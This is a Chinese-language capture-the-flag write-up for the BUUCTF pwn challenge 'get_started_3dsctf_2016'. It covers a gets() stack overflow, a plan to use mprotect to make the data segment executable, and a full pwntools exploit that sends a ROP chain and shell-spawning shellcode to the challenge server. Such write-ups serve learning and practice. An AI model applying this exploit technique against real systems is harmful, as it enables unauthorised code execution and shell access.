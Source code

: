 ```yaml
---
author: 
  name: Zephyr
title: get started 3dsctf 2016
date: 2022-3-21 13:25:03
permalink: /pages/2e1547494524d184
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# get started 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

部分函数表如下

![get_started_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/get_started_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 函数表内有mprotect函数
1. 补充：
   - 在Linux中，mprotect函数可以用来修改一段指定内存区域的保护属性，函数原型如下

```c
int mprotect(const void *start, size_t len, int prot);
// start 为mprotect函数的第一个参数 (被修改内存的地址) 常用.got.plt/.bss起始地址
// len   为mprotect函数的第二个参数 (被修改内存的大小) 通过程序启动时查看该内存块的大小得到
// prot  为mprotect函数的第三个参数 (被修改内存的权限) 7 = 4 + 2 +1 (rwx)
```



3. 思路:
   - 本题存在mprotect函数，且无PIE保护，选择栈溢出到mprotect处修改权限，在数据段直接写入shellcode并返回执行

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27774)
elf = ELF(pwnfile)
padding = 52+4
mprotect_addr = elf.symbols[b'mprotect']
read_addr = elf.symbols[b'read']
data_start = 0x80EA000
pop_3times_ret = 0x804f460
lenth = 0x2000
rwx = 7
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, data_start,lenth, rwx, read_addr, data_start, 0, data_start, 0x200])
io.sendline(payload)
payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```